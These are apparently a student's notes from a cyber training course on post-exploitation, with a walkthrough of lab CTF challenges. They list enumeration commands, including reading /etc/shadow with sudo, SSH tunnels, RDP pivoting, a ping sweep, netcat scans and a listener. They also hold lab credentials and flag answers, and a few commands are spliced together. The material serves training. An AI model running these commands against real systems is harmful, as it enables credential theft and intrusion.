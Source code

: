 ## CCTC Security Day 8
- agenda

## Admin Data 

### CTFd info FOR UPDATED CTF
| Field | Value | 
|-|-|
| Stack # | 10 | 
| Username | JAMO-005-B |  
| Password | YdY8vrRGOsRfhy6 |
| lin.internet | 10.50.21.133 |
|Linux ops | 192.168.65.20, 10.50.27.132|
| Windos Ops | 1192.168.65.10, 10.50.26.107|

***
### Post Exploitation

## Linux
- see etc shadow:
    - `cd /etc`
    - `sudo cat shadow`
    - ` cat passwd` - usernames
    - `sudo cat rsyslog.conf`
    - `cat hosts` - 
    - `cat crontab` - current user or -l for more 

- `sudo -l` showd all the commands that user can do with sudo 
- `whoami` - current user
- `groups` groups 
- `find / -perm /4000` (not needed for today I guess? )
- `w` and `who` looks at all logged in users on box, and what they've been up to 
- `ps -aux` (unix way), essentially the same as -l 
- `pstree` - shows breakdown of all processes 
- `lsb_release -a` and `cat os-release` show version of operating system 
- `service --status-all` - shows all services and what's on/off
- `systemctl --all` - shows
- `systemctl status` 
# **`hostname`** - super important, shows what computer you are on for test

***
## Windows

- use **system information**, **Computer management** (see groups)
- task scheduler 
- registry run/runonce keys
- services (look for empty description)
- file efor i in {1..254} ;do (ping -c 1 192.168.$i.9 | grep "bytes from" &) ;done
ed `%temp

%` into file address. --> AppData --> Roaming
        - `C:\Users\student\AppData\Local\Temp`
        - `C:\Users\student\AppData\Roaming` can also get there with `%appdata%`
    - `hiden file, 
    - programfiles 
    - programdata
    - Programfiles(x86)
- Even viewer (windows logging)

***
Order of challenges:
extranet --> intranet (intranet 4 is talking about a security product) --> internal 
***
### CTF Challenges
Donovian Post Exploitation (DPE)
XX Mar 2024
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyber Intelligence, Surveillance and Reconnaissance (C-ISR)

Objective: Maneuver through Donovian-Extranet, identify and gain access futher into Donovian internal Cyberspace, it is believed that there is an network that acts as an internal DMZ between these to locations. Intelligence was able to identify the last octet of a system that resides in the Donovian internal Cyberspace.

Tools/Techniques: All connections will be established through SSH masquerades or web browser. Ports in use will be dependent on target location and are subject to change. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = P05T3xpl01t5t@rtoF@ct1v1ty

Prior Approvals: Sudo usage and remote port forward is authorized. System dir walks from system roots, altering accounts/routing or tool uploads are authorized. Survey and access to newly discovered systems during C-ISR.

Scheme of Maneuver:
>internet_grey_host
->T1: 192.168.28.100
--->T3:x.x.x.9

Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
OS: CentOS
Creds: comrade :: StudentMidwayPassword
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T3
Hostname: unknown
IP: x.x.x.9
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.

1. Extranet

Utilizing the intelligence provided, enumerate the target provided. Look for user generated documents, relating to network structure, on this host that will direct further actions.

        - get on comrade, cd desktop --> network.
        - `scp map.png student@xfreerdp /v:localhost:43300 /u:comrade /p:StudentMidwayPassword /size:1000x1000 +clipboard10.50.21.133:/home/student`  onto jump box --> get it onto lin-ops `scp map.png student@10.50.27.132:/home/student`
        - install gimp
        - open map.png
        - see 192.168.X.0/27
        - look around network directory for hidden files --> .mapkey.txt
        - zzcNTsGG3zwD7QjHrfho

2. Extranet 2

The Donovian government is furthering their inventory expansion project. Identify and locate this intel to support this.

        - on comrade, get to home directory, then usr/share --> equip-inventory.txt --> wDsibI1AjiIjhC0XqBHV (decoded)

3. Intranet (3201)

Enumerate all network items, relating to name resolution

                - get onto comrade, cat /etc/hosts -->  192.168.150.253 (Donovian Intranet)
                - `ssh 10.50.21.133 -L 42200:192.168.28.100:2222 -NT` create tunnel from jumpbox to comrade ssh
                - ssh from comrade box to intranet `ssh -p 3201 192.168.150.253` 
                - `etc/ --> cat hosts --> yslO1mUMzvL3zLAbHnYP`
4. Intranet 2

Enumerate all network items related to syslog and rsyslog

                - In intranet still --> etc/rsyslog.d --> cat 50-default.conf
                - IVEUFtIY7CHhKepQ44mE

5. Intranet 3

Enumerate user directories on the machine. Find artifacts of malicious intent. You might need higher privileges...


                - sudo cat root/brootkit/brootkit-master/br.conf
                - qVnoUiQnILVbd0iEEuEX
6. Intranet 4

Enumerate for security products that may be installed on the system

        - /etc --> cat rkhunter.conf --> ylD7PRFfWRIcOslLlJy7
7. Intranet 5

Enumerate information related to the users on this system

        - cd /etc --> sudo cat shadow --> 266nuHJ9vznLyRDmrGVh

8. Intranet 6

Enumerate items that would be related to jobs and tasks that running on the host, you may need to use higher privileges.

- look for individual user cron, like root --> sudo su root then crontab -l --> CUt2Eyl7D9XNESsPaoJ4'

9. Intranet 7

Find the beacon being received by the intranet host and determine how to interact with it 

                - sudo tcpdump  port not 3201
                - see 192.168.28.135 12314 is often conneting to intranet
                - fix nc --> sudo tcpdump  port not 3201
  171  sudo ncat -v -n 192.168.28.135 1-2034
  172  ncat -v -n 192.168.28.135 1-2034
  173  nc -v -n 192.168.28.135 1-2034
  174  ls -l /bin/nc
  175  ls -l /etc/alternatives/nc
  176  ls -l /bin/nc.openbsd
  177  chmod +x /bin/nc.openbsd
  178  sudo chmod +x /bin/nc.openbsd
  179  nc -v -n 192.168.28.135 1-2034
  180  nc -lvnp 12315

S1RCQ09INUhFTDA5a3lUT0g2STIK --> base64 decode --> c
KTBCOH5HEL09kyTOH6I2

10. Internal

- ssh comrade@localhost -p 42200 -L 43300:192.168.28.9:3389 -NT

- xfreerdp /v:localhost:43300 /u:comrade /p:StudentMidwayPassword /size:1000x1000 +clipboard

- documents --> generalstaz --> donovian battle brief --> 6LN1QJV0Y9GCcExi4Caz

11. Internal 2

gorgas missle plan --> FdRE8A1nILw8OYVdgp3a


12. Internal 3
regedit --> Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run --> checkin--> modify --> 
ZZ8hMWRIYRCMisJ777kE
